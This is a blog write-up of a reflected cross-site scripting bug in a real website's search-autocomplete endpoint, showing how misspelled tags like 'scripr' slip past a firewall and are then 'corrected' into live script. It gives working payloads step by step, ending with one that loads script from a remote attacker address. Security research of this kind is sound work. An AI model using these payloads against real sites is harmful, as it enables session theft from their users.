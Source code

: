 # Bypassing a web application firewall with autocomplete

A few months ago, I was looking at a popular New Zealand website. I came across their search feature. and found that when I interacted with the search box, it queried this endpoint to fetch the search results

`<snip>/ViewSuggestSearch-Suggest&SearchTerm=tshirt`

    <div class="suggest-results-list search-spring">
    <button type="button" class="close" title="Close"><span>×</span></button>
    <div class="suggest-suggestion-list col-xs-6">
    	<h3>Search Suggestion</h3>
    	<ul>
    		<li class="classic">
    			<button type="button"
    					data-search-result="tshirt"
    					class="search-result">
    				<span class="ish-searchTerm">tshirt</span>
    			</button>
    		</li>
    	</ul>
    </div>
    
    (A bunch of products)...
    

The page would make these `HTTP GET` requests, and the endpoint would return a little HTML widget that would then be embedded in the page. I tried injecting a HTML tag to test if this is vulnerable:

`/ViewSuggestSearch-Suggest&SearchTerm=<h1>HACKS?!</h1>`

    <div class="suggest-results-list search-spring">
    <button type="button" class="close" title="Close"><span>×</span></button>
    <div class="suggest-suggestion-list col-xs-6">
    	<h3>Search Suggestion</h3>
    	<ul>
    		<li class="classic">
    			<button type="button"
    					data-search-result="<h1>hack?!</h1>"
    					class="search-result">
    			<h1>hack?!</h1>
    			</button>
    		</li>
    	</ul>
    </div>
    

Oops, that’s not great—our input gets reflected without being sanitized! That means we can get JavaScript execution, grab some cookies, and pwn people now… right? Let’s find out:

`/ViewSuggestSearch-Suggest&SearchTerm=<script>alert(document.domain)</script>`

![Website WAF Block screen](https://jessie.cafe/posts/bypassing-a-waf-with-autocomplete/images/waf-block-screen.png)

Wow, that’s a crazy coincidence! Isn’t it? Let’s look a little closer…

![WAF image link hover](https://jessie.cafe/posts/bypassing-a-waf-with-autocomplete/images/waf-image-link.png)

Huh, okay, unfortunately, we have to work a bit harder. This company has paid attention to the security checklist and installed a Web Application Firewall (WAF), namely Akamai’s ‘Kona Site Defender’. You can read more about WAFs [here](https://owasp.org/www-community/Web_Application_Firewall), but the idea is that if we can’t stop all the vulnerabilities, we can at least make exploitation harder by blocking suspicious requests.

Clearly this is a problem, how do we bypass it?

Looking back at our first injection attempt, we can notice something interesting: the word “HACKS” got changed to “hack”. This is likely due to an autocomplete feature, by the nature of it being a search engine. This may prove useful in bypassing the WAF. Can we somehow craft a payload that slips past the WAF, is then transformed by this autocomplete feature into something malicious, and then reflected to the victim’s browser? Well, we’ve already seen that it seems to disregard the non-alphanumeric characters from its autocompleting (i.e., `<>/`). That’s good; we only have to worry about the words. Let’s try:

`/ViewSuggestSearch-Suggest&SearchTerm=<script>`

Blocked, ok thats expected,

What if we try “scripr”, a subtle misspelling of “script”? Will it autocomplete it?

`/ViewSuggestSearch-Suggest&SearchTerm=<scripr>`

    ...
    <li class="classic">
    	<button type="button" 
    			data-search-result="<script>" 
    			class="search-result">
    		<span class="ish-searchTerm"><script></span>
    	</button>
    </li>
    ...
    

Perfect! That looks good; the WAF doesn’t block it. Let’s build it up more. It turns out the autocomplete doesn’t like the second word to be followed by a “>”, so let’s add a “/” which the browser will ignore.

`/ViewSuggestSearch-Suggest&SearchTerm=<scripr></scripr/>`

    ...
    <li class="classic">
    	<button type="button" 
    			data-search-result="<script></script>" 
    			class="search-result">
    		<span class="ish-searchTerm"><script></script/></span>
    	</button>
    </li>
    ...
    

Sweet, it also seems that the WAF doesn’t like “alert(”, so we’ll use “alertt(” instead.

`/ViewSuggestSearch-Suggest&SearchTerm=<scripr>alertt(document.domain)</scripr/>`

![Alert Box](https://jessie.cafe/posts/bypassing-a-waf-with-autocomplete/images/alert-box.png)

Yay! we did it :3, In terms of further exploitation, a payload such as `<scripr/src="//<remote-ip>/"></scripr/>` seems to work and Note: It’s much easier here with an ip address as domain names will get autocompleted.

Overall this was a fun little bug to discover, and demonstrates how to utilize these types of transformations to bypass WAF’s and filters.